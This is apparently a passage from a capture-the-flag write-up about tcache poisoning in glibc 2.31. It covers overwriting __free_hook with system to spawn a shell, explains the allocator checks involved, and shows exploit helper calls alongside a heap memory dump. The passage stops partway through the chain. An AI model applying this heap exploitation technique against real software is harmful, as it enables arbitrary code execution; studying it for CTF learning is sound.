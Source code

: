 
## getting a shell

For this part we will make use of the 3 chunks we allocated and freed before(D,E,F)

## tache poison in libc 2.31

The goal is to poison the tcache and get a chunk at __free_hook and overwrite it with system and then free("/bin/sh")

in libc 2.31 there are 2 checks that we usually need to worry about. 

One is that when we try to malloc from tcache the count in tcache_perthread_struct has to be > 0 otherwise malloc will ignore whatever is in tcache. every tcache has its own count that keeps track of how many chunks are currently in there. So if we want to poison the tcache we have to free at least 2 chunks of the same size and not malloc any in between and then overwrite the fw in the first chunk to __free_hook so that our fake chunk won't get allocated last and so count won't be <= 0 at that point.

Second is that there is a pointer stored in bk of every free chunk and befor freein free will check if that pointer is already there and if it is that must mean that this chunk was already freed and so free() triggers a 'double free detected' exception

in this challenge the check that will be more problematic is the first one. We have to free 2 different chunks of the same size. This is usually not a problem, just call malloc twice and then free twice. But here we can only operate with 1 chunk at a time so when we try to malloc same size twice, both malloc calls will terutrn the same pointer/chunk since it will get freed and placed in the tcache(that's the indended use of tcache afterall)

the way I deal with this is as follows. target is the 0x21 size tcache.

First I malloc from tcache 0x21 chunk D
```
create(0,0x10,b'aAA')
```

then I malloc from tcache 0x51 chunk E and with that free chunk D back into tcache 0x21

```
create(0,0x40, b'VVV')
```
```
0x56257ccda290:	0x0000000000000000	0x0000000000000021 <--- chunk D. Free
0x56257ccda2a0:	0x0000000000000000	0x000056257ccda010
0x56257ccda2b0:	0x0000000000000000	0x0000000000000051 <--- chunk E. Malloc
0x56257ccda2c0:	0x0000000000565656	0x0000000000000000
0x56257ccda2d0:	0x0000000000000000	0x0000000000000000
0x56257ccda2e0:	0x0000000000000000	0x0000000000000000
0x56257ccda2f0:	0x0000000000000000	0x0000000000000000
0x56257ccda300:	0x0000000000000000	0x00000000000000a1 <--- chunk F. Free
0x56257ccda310:	0x0000000000000000	0x000056257ccda010
0x56257ccda320:	0x0000000000000000	0x0000000000000000
0x56257ccda330:	0x0000000000000000	0x0000000000000000
0x56257ccda340:	0x0000000000000000	0x0000000000000000
0x56257ccda350:	0x0000000000000000	0x0000000000000000
0x56257ccda360:	0x0000000000000000	0x0000000000000000
0x56257ccda370:	0x0000000000000000	0x0000000000000000
0x56257ccda380:	0x0000000000000000	0x0000000000000000
0x56257ccda390:	0x0000000000000000	0x0000000000000000
0x56257ccda3a0:	0x0000000000000000	0x00000000000000f1
```
